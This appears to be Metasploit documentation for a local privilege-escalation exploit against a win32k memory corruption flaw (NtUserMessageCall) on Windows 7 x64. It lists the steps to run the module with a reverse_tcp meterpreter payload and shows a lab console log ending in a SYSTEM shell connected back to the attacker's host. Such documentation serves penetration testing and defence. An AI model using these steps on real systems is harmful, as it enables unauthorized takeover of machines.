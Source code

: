 ## Vulnerable Application

This module exploits a memory corruption vulnerability in win32k which is
reachable via a NtUserMessageCall() system call.

This module has been tested against Windows 7 x64 SP1. Offsets
within the solution may need to be adjusted to work with other versions
of Windows.

## Verification Steps

1. Get a non-SYSTEM meterpreter session on Windows 7 x64
1. `use exploit/windows/local/ntusermessagecall`
1. `set session <session>`
1. `set payload windows/meterpreter/reverse_tcp`
1. `set LHOST <LHOST>`
1. `set LPORT 5555`
1. `exploit`
1. Get a SYSTEM session

## Scenarios

### Windows 7 SP1 x64

```
msf5 exploit(multi/handler) > sessions

Active sessions
===============

  Id  Name  Type                     Information             Connection
  --  ----  ----                     -----------             ----------
  1         meterpreter x64/windows  User-PC\User @ USER-PC  192.168.56.1:4444 -> 192.168.56.6:49157 (192.168.56.6)

msf5 exploit(multi/handler) > use exploit/windows/local/ntusermessagecall
[*] No payload configured, defaulting to windows/x64/meterpreter/reverse_tcp
msf5 exploit(windows/local/ntusermessagecall) > set session 1
session => 1
msf5 exploit(windows/local/ntusermessagecall) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf5 exploit(windows/local/ntusermessagecall) > set LHOST 192.168.56.1
LHOST => 192.168.56.1
msf5 exploit(windows/local/ntusermessagecall) > set LPORT 5555
LPORT => 5555
msf5 exploit(windows/local/ntusermessagecall) > run

[*] Started reverse TCP handler on 192.168.56.1:5555
[*] Executing automatic check (disable AutoCheck to override)
[+] The target appears to be vulnerable.
[*] Launching notepad.exe to host the exploit...
[+] Process 1808 launched.
[*] Injecting exploit into 1808 ...
[*] Exploit injected. Injecting payload into 1808...
[*] Payload injected. Executing exploit...
[*] Sending stage (201283 bytes) to 192.168.56.6
[*] Meterpreter session 2 opened (192.168.56.1:5555 -> 192.168.56.6:49158) at 2020-07-10 17:10:54 +0800

meterpreter > sysinfo
Computer        : USER-PC
OS              : Windows 7 (6.1 Build 7601, Service Pack 1).
Architecture    : x64
System Language : en_GB
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter >
```
